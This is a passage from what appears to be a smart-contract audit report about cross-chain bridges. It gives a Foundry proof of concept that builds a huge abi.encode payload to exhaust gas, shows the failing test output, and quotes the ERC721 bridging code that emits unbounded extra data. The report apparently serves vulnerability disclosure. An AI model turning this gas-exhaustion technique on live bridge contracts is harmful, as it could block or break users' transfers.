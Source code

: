 ```solidity
        bytes memory data = "hihiihihihi";
        for(uint256 i; i < 1000000; ++i) {
            data = abi.encode(data, address(0));
        }
        bridge.gasBomb(data);
    }


}
```

If run:

```solidity
forge test --match Gas
```

the output is:

```solidity
[⠘] Compiling 1 files with 0.8.17
[⠊] Solc 0.8.17 finished in 1.67s
Compiler run successful

Running 3 tests for test/POC.t.sol:POCTest
[PASS] testReaonsableGasOne() (gas: 35184)
[PASS] testReaonsableGasTwo() (gas: 1704637)
[FAIL. Reason: EvmError: OutOfGas] testUnboundedGas() (gas: 9223372036854754743)
Test result: FAILED. 2 passed; 1 failed; finished in 439.00ms

Failing tests:
Encountered 1 failing test in test/POC.t.sol:POCTest
[FAIL. Reason: EvmError: OutOfGas] testUnboundedGas() (gas: 9223372036854754743)
```

As we can see, if we generate large data and emit event, transaction can run out of gas.

The POC above also shows that abi.encode can run out of gas if encoding large input data.

The first example shows that emitting large data for ERC20 bridging and cause transaction to run out of gas and event large data is cheap in L2 but expensive in L1, same case applies to ETH bridging and ERC721 Bridging as well.

If ERC72 bridging from L2 to L1, first, the code below emit event on L2 in _initiateBridgeERC721 in L2ERC721Bridge.sol

```solidity
bytes memory message = abi.encodeWithSelector(
	L1ERC721Bridge.finalizeBridgeERC721.selector,
	remoteToken,
	_localToken,
	_from,
	_to,
	_tokenId,
	_extraData
);

// Send message to L1 bridge
// slither-disable-next-line reentrancy-events
MESSENGER.sendMessage(OTHER_BRIDGE, message, _minGasLimit);

// slither-disable-next-line reentrancy-events
emit ERC721BridgeInitiated(_localToken, remoteToken, _from, _to, _tokenId, _extraData);
```
 